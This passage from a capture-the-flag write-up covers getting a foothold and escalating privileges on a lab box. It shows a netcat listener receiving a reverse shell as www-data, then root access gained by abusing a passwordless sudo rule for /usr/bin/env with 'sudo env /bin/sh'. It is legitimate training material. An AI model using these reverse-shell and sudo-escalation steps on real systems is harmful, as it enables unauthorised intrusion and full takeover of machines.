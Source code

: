 Then, open a netcat listener and we have a reverse shell as `www-data`.


```shell
geobour98@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.16.74] from (UNKNOWN) [10.10.202.202] 54374
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@85e25e675ab4:/var/www/html$ whoami
www-data
```

## Privilege Escalation

After executing the command: `sudo -l` we see that we can execute `/usr/bin/env` as root without being asked for root password.

We can use the following command to become root: `sudo env /bin/sh` found on: https://gtfobins.github.io/gtfobins/env/#sudo


```shell
www-data@85e25e675ab4:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on 85e25e675ab4:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 85e25e675ab4:
    (root) NOPASSWD: /usr/bin/env
www-data@85e25e675ab4:/var/www/html$ sudo env /bin/sh
sudo env /bin/sh
id
uid=0(root) gid=0(root) groups=0(root)
```

### Flag 2

The 2nd flag can be found in: `/var/www/flag2_QMW7JvaY2LvK.txt`:

```shell
cd /var/www
cat flag2_QMW7JvaY2LvK.txt
[REDACTED]
```

### Flag 3

The 3rd flag can be found in: `/root/flag3.txt`:


```shell
cd /root
cat flag3.txt
[REDACTED]
```
